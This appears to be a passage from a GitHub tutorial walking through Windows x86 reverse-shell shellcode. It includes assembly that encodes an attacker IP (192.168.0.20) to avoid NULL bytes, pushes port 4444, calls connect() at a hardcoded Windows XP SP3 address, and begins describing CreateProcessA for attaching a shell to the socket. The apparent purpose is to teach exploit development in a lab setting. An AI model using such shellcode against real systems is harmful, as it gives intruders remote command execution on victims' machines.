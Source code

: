1) We first create a `sockaddr_in`/`sockaddr` structure on the stack (That is passed as a `sockaddr`). We add a constant value to the Hex representation of the IP address to encode the IP address, and later subtract the constant during the shellcode's execution to decode it. This is to eliminate any NULL bytes (0x0). The IP is placed on the stack in Little-Endian notation (Reverse Order), and the tuple (IP, Port) is held in the `sa_data` field of the `sockaddr` structure; with the `sa_family` value holding the protocol type.
   ```
   mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                           ; hex(20) = 0x14, 0x14 + 0x55 => 0x69
                           ; hex(0) = 0x00, 0x00  + 0x55 => 0x55
                           ; hex(168) = 0xa8, 0xa8 + 0x55 => 0xfe
                           ; hex(192) = 0xc0, 0xc0 + 0x55 => 0x15
                           ; = 0x6955FE15
   sub ebx,0x55555555      ; Subtract the const 0x55555555 to extract the original IP
   push ebx                ; Push the IP (0x1400a8c0) to the stack (No NULL bytes in the shell code!)
   push word 0x5c11        ; Push port: hex(4444) = 0x115c
   xor ebx,ebx             ; Zero out EBX
   add bl,0x2              ; sa_family: AF_INET = 2
   push word bx            ; Push sa_family parameter
   mov ebx,esp             ; Move ESP into EBX now EBX holds the pointer to sockaddr structure (which is on the stack)
   ```
   * Depending on the IP we are sending, we can change the constant we use in the addition and subtraction to prevent any NULL bytes!
   * For the `sockaddr` structure 
2) Then we push the size of the `sockaddr` structure onto the stack (This is always 16 bytes for IPv4). 
   ```
   push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
   ```
3) We then push the `sockaddr` structure onto the stack, this address was extracted into the `ebx` register in the last line of the `sockaddr` block.
   ```
   push ebx                ; Push pointer ('name' parameter)
   ```
4. The socket descriptor is then placed onto the stack, it is assumed the `WSASocketA(...)` assembly has been ran and it store the socket descriptor in the `esi` register. 
   ```
   push esi                ; Push saved socket handler ('s' parameter)
   ```
5) We then call the `connect(...)` function. 
   ```
   mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
   call ebx                ; Call connect()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin)
   * We will return to the stack, and we do not need to save the return value (It will return if it failed or not).


#### CreateProcessA
The [`CreateProcessA(...)`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function is used in Windows to [fork](https://man7.org/linux/man-pages/man2/fork.2.html) the current process and [execute](https://linux.die.net/man/3/execv) a new process in the forked process's place. This is what we use to spawn a Windows command prompt or powershell window and a pipe to set it's file descriptors (stdin, stdout, and stderr) to read from, or write to the Socket we have created. 
